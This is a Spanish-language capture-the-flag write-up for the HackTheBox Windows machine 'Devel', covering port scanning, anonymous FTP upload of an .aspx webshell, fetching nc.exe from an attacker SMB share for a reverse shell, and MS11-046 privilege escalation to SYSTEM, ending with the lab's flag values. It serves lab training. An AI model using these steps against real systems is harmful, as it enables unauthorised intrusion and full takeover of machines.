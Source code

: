 ```yaml
---
title: HackTheBox - Devel
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, IIS, MS11-046, Misconfiguration]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Devel/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Devel Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **IIS, MS11-046, Misconfiguration**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Devel`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Devel/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Devel/02-versions.png)

    + [x] Se encuentra habilitado la opción de **Login como un usuario anónimo en FTP**, con lo cual podemos acceder a este servicio sin necesidad de .credenciales.
    + [x] En el puerto **80** se ejecuta un **`IIS`** (Internet Information Services).

c. Accedemos al servicio **FTP** como **anonymous** y listamos el contenido

```bash
ftp <IP>
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49248|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

* Entramos a la página web y analizamos el código fuente. Veremos que la imagen que se presenta tiene por nombre **welcome.png**, que es el mismo fichero que está en el servicio **FTP**.

* Subiremos un archivo de prueba para ver si podemos acceder a este desde en servicio web.

    ```s
    ftp> put test.txt test.txt
    226 Transfer complete.
    ```

* Ahora vamos al servicio web y accedemos a este recurso

![](/assets/images/HTB/Easy/Devel/03-test.png)

d. Como notamos, el archivo que subimos al servicio **FTP** se refleja en el servicio web, por tanto, subiremos una **`webshell` .aspx** > [webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)

* Con esto ya podemos ejecutar comandos en la **Máquina Víctima**

    ![](/assets/images/HTB/Easy/Devel/04-webshell.png)

* **Obtener una reverse shell** 🔀

    1. Nos descargamos [nc](https://eternallybored.org/misc/netcat/) en nuestra **`Máquina Atacante`**
    2. Compartimos un recurso por **SMB**: **`impacket-smbserver Share ./ -smb2support`**
    3. En la **webshell** ejecutamos el comando **`copy \\<tun0 IP>\Share\nc.exe C:\Windows\Temp`**
    4. Nos ponemos en escucha en nuestra **`Máquina Atacante`**: **`nc -lvnp 443`**
    5. Ejecutamos netcat en la **`Máquina Víctima a través de la Webshell`**:

        ![](/assets/images/HTB/Easy/Devel/05-reverse.png)

    * **Máquina Atacante**

        ```bash
        connect to [10.10.14.115] from (UNKNOWN) [10.10.10.5] 49245
        Microsoft Windows [Version 6.1.7600]
        Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
        c:\windows\system32\inetsrv>
        ```

### Escalada de Privilegios 💹

a. Enumeramos la información del sistema con **`systeminfo`**

```cmd
OS Name:            Microsoft Windows 7 Enterprise
OS Version:         6.1.7600 N/A Build 7600
OS Manufacturer:    Microsoft Corporation
```

 * Vemos que es una versión antigua de **`Windows`**

b. Al buscar por un exploit para esta versión de Windows vemos [ms11-046](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe)

c. Para transferir este exploit a la **`Máquina Víctima`** seguiremos los mismos pasos de **Obtener una revershell 🔀**

d. Ejecutamos el script y ya tendremos acceso como **`Adminstrador`**

```bash
C:\Windows\Temp>ms11-046.exe
c:\Windows\System32>whoami
nt authority\system
```

e. Por último vemos las **`flags` de usuario y root**

```cmd
c:\Users\babis\Desktop>type user.txt
48d0837eebb3f87ba7cf0be20ee53012

C:\Users\Administrator\Desktop>type root.txt
3ee446d2151a7627cd28cf5e5f4075ce
```